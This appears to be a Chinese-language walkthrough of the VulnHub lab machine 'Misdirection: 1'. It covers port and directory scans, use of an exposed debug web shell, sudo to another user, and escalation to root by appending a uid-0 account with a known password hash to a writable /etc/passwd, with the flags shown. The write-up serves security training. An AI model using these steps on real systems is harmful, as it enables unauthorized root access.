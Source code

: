 # Misdirection: 1

2024-6-12 https://www.vulnhub.com/entry/misdirection-1,371/

difficulty: Easy

## IP

192.168.10.196

## Scan

Open Port -> 22,80,3306,8080

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ecbb44eef333af9fa5ceb5776145e436 (RSA)
|   256 677bcb4e951b78088d2ab147048d6287 (ECDSA)
|_  256 59041d25116d89a36c6de4e3d23cda7d (ED25519)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

优先看 80 和 8080 对应的 web 服务。

80 对应的显示了一个 cms,底部显示的是 web2py，经过 searchsploit 搜索，存在多个漏洞:

```
Web2py 2.14.5 - Multiple Vulnerabilities | python/webapps/39821.txt

http://192.168.10.196/admin/  显示: 管理因不安全通道而关闭
```

80 的整个子页面除了 /example 都无法访问，应该是后台做了限制，所以上面的漏洞也无法进行利用。

在看 8080 端口，gobuster 扫描一下：

```
gobuster -t 32 dir -u http://192.168.10.196:8080/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,rar,zip,sql -e

http://192.168.10.196:8080/help                 (Status: 301) [Size: 322] [--> http://192.168.10.196:8080/help/]
http://192.168.10.196:8080/index.html           (Status: 200) [Size: 10918]
http://192.168.10.196:8080/images               (Status: 301) [Size: 324] [--> http://192.168.10.196:8080/images/]
http://192.168.10.196:8080/scripts              (Status: 301) [Size: 325] [--> http://192.168.10.196:8080/scripts/]
http://192.168.10.196:8080/css                  (Status: 301) [Size: 321] [--> http://192.168.10.196:8080/css/]
http://192.168.10.196:8080/wordpress            (Status: 301) [Size: 327] [--> http://192.168.10.196:8080/wordpress/]
http://192.168.10.196:8080/development          (Status: 301) [Size: 329] [--> http://192.168.10.196:8080/development/]
http://192.168.10.196:8080/manual               (Status: 301) [Size: 324] [--> http://192.168.10.196:8080/manual/]
http://192.168.10.196:8080/js                   (Status: 301) [Size: 320] [--> http://192.168.10.196:8080/js/]
http://192.168.10.196:8080/shell                (Status: 301) [Size: 323] [--> http://192.168.10.196:8080/shell/]
http://192.168.10.196:8080/debug                (Status: 301) [Size: 323] [--> http://192.168.10.196:8080/debug/]
```

http://192.168.10.196:8080/debug/ 直接显示了一个可以执行 linux 命令的 web 窗口，sudo -l 显示可以切换到用户 brexit:

```
www-data@misdirection:/home$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```

sudo -u brexit /bin/bash

得到 user flag:

```
brexit@misdirection:~$ cat user.txt
404b9193154be7fbbc56d7534cb26339
```

sudo、suid、crontab、getcap 等都没有提权点，在查询可写权限文件时，发现可对/etc/passwd 进行修改：

```
find / -writable -type f 2>/dev/null | grep -v '/sys' | grep -v '/proc'| grep -v '/home/brexit/web2py'
```

所以直接可以新创建一个 root 权限用户密码为 123，加到 /etc/passwd 文件中：

```
openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1

echo 'tom:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:User_like_root:/root:/bin/bash' >> /etc/passwd

brexit@misdirection:~/web2py$ su tom
Password:
root@misdirection:/home/brexit/web2py# cd /root
root@misdirection:~# ls -al
total 60
drwx------  6 root root  4096 Sep 24  2019 .
drwxr-xr-x 23 root root  4096 Jun  1  2019 ..
-r--------  1 root root    33 Jun  1  2019 root.txt

root@misdirection:~# cat root.txt
0d2c6222bfdd3701e0fa12a9a9dc9c8c
```

最终获得了 root 权限。

